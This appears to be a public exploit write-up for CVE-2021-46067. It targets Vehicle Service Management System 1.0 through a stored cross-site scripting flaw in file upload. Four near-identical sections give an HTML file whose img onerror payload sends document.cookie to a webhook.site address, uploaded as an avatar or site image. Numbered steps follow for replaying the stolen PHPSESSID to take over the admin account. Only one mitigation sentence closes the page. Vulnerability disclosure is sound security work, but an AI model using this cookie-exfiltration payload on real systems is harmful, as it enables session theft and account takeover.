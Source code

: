 # CVE-2021-46067

### Exploit Title: Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46067
### CVSS: 9.8 CRITICAL
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-cookie-stealing-leads-to-full-account-takeover
- https://nvd.nist.gov/vuln/detail/CVE-2021-46067
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46067

### Description:
In Vehicle Service Management System 1.0 an attacker can steal the cookies leading to Full Account Takeover.

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In My Account Section enter all the required details and browse the html file in Avatar.
7. Click on update button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Create New User Section enter all the required details and browse the html file in Avatar.
7. Click on Save button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in System Logo.
7. Click on update button.
8. Open the System Logo image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in Website Cover.
7. Click on update button.
8. Open the Website Cover image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### Impact:
An attacker upload malicious html file it redirects to the third party website and cookies are exposed in the request. It leads to Full Account Takeover.

### Mitigation:
It is recommended to validate the file upload functionality and Perform Secondary Checks in the session.
